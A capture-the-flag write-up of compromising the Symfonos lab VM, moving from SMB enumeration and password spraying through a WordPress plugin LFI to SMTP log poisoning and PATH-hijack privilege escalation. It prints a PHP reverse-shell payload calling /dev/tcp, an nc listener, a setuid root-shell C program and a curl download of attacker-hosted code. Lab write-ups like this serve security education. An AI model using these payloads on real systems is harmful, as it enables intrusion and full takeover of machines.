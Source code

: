 # Symfonos
**Writeup | Ethan Michalak**

## Nmap Scan
![nmap scan](nmap.png)
The Nmap `nmap -sC -sV IP` has revealed four services
1. 22 - SSH
2. 25 - SMTP
3. 80 - HTTP
4. 139 - Samba
5. 445 - Samba

## Service Enum
### http
The most interesting of the bunch is port 80 and 445, however the default web page looks like this
![webpage](webdefault.png)
Similarly the code of the website is not that interesting either which is revealed by a 
`curl -i http://IP`
![curl command](curl.png)

### SMB
An anonymous smblisting `smbclient -L //IP` however has some interesting information
![smbclient list](smbclient1.png)
There is an **anonymous share!**
We can login into this share with 
`smbclient //192.168.1.106/anonymous --user anonymous%anonymous`
![getattention](getattention.png)

This attention.txt reveals a sort of password policy where users are not supposed to use the following passwords
- epidioko
- qwerty
- baseball

To our advantage we can use this information leak as a password list and spray it at the rest of the services.  Starting with SMB

**Nice!** We were able to successfully login into the helios share with
`smbclient //192.168.1.106/helios --user helios%qwerty`

One of the files from the share 'todo.txt' reveals a hidden directory */h3l105* now lets go back to our webserver

## http extended
A look at our /h3l105 reveals a seemingly default wordpress blog
![wordpress home](wphome.png)

The tool **whatweb** confirmed this is indeed wordpress and version 5.2.2
`whatweb -a 3 http://192.168.1.106/h3l105`
![whatwebmate](whatweb.png)
Another tool **Nikto** reveals a few directories worth looking at
`nikto -h http://192.168.1.106/h3l105`
![nikto](nikto.png)

The site path
**/h3l105/wp-content/uploads**
houses an interesting plugin called Site Editor which is something we would want to poke at given plugins are typically vulnerable
 
 ## Exploitation
 ### Searchsploit Site Editor
 A quick searchsploit on "Wordpress Site Editor" shows us some exciting options
 `searchsploit Wordpress Site Editor`
 ![sp](sp.png)
 
 We can take a look at our first option by typing
 `searchsploit -x 44340`
 ![lfisp](LFI.png)
 
 ### Local File Inclusion
 
The proof of concept edited to fit our scenario turns into
`http://192.168.1.106/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

![lfiproof](LFIproof.png)

But now we have LFI so what?
What can we do with reading files?
My first extinct was to grab the **wp-config.php** file which houses the database password and other goody information, however permissions were configured correctly...
URL payload =
`../../../../../../../wp-config.php`
![sadwpconfig](config.png)

### log poisoning

If you recall there is a service we haven't messed with yet sitting on port 25, *SMTP*
which allows for the transfer of emails.

What if we were to send an email containing maliscious PHP code and then have our webserver read it with LFI?
Well...good things for us but bad things for blue team

Lets start by connecting to SMTP and saying **helo**
`telnet 192.168.1.106 25`
![smtp](smtp.png)
and then check in on our pal "helios"
`VRFY helios`
![verify helios](verify.png)
So now we have all the ingredients to send an email over the cmdline!
The domain and the inbox
`helios` + `symfonos.localdomain`

Here is the email I sent, lets break it down
![email](email.png)

My Email has three ingredients
- The sender indicated by mail from:
- The receiver indicated by rcpt to:
- the subject which contains my maliscious php code

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.101/4444 0>&1'"); ?>`

This php code is telling bash to connect to my IP over PORT 4444, in metasploit terms its *LHOST* and *LPORT* right?

Now we cross our fingers and test it, lets open the port here...
`nc -lvnp 4444`
![listen](listen.png)

**Lets Go!** After changing our URL payload to helios's mailbox we get the connection!!!
![exploit](exploit.png)

## Privilege Escalation
### SUID search
A SUID binary is an executable with the special S permision which means it can execute as root without a password.  As such we love these.
A quick search for them reveals
`find / -type f -perm -4000 2>/dev/null`
![bins](suid.png)

### /opt/statuscheck

The most interesting of these SUID binaries is '/opt/statuscheck' as its not a default linux binary.  Running the binary confirms this suspiscion 

![sus](sus.png)

It seems the custom binary was created to detect downtime on the webserver...however uses **curl** to make the request.  We can confirm this by running strings on the binary and simply recreat the output with:
`curl -I localhost`

So we know it uses curl so what?
Lets ask ourselves a question, How does it know which curl to use?
*Can we change which curl it uses?*

We are in luck because we can...
In linux, an environmental variable called "$PATH" contains a list of directories to search for binaries.  We can edit our own PATH to contain a directory that is writable by us such as /tmp
![change path](pathvar.png)

Now we just need our trojan curl

```
#include <stdio.h>
#include <stdlib.h>

int main() {
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Incredibly simply yet effective, all this C code is doing is setting our uid and gid to that of roots and executing /bin/bash

After writing and saving the code above as priv.c, I had to transfer the file over.  The easiest method in my opinion is to start a mock webserver and execute a webrequest from the victim machine to grab the file
*To start the mock webserver*
`python3 http.server 80`
*To request the file*
`curl http://192.168.1.101/priv.c`
![mockweb](mockweb.png)
Now we have the priv.c on our victim machine we have to compile it as curl
![webgrab](webgrab.png)

Finally lets give this baby a whirl by running /opt/statuscheck

![root](root.png)

**Praise the gods!** We are root
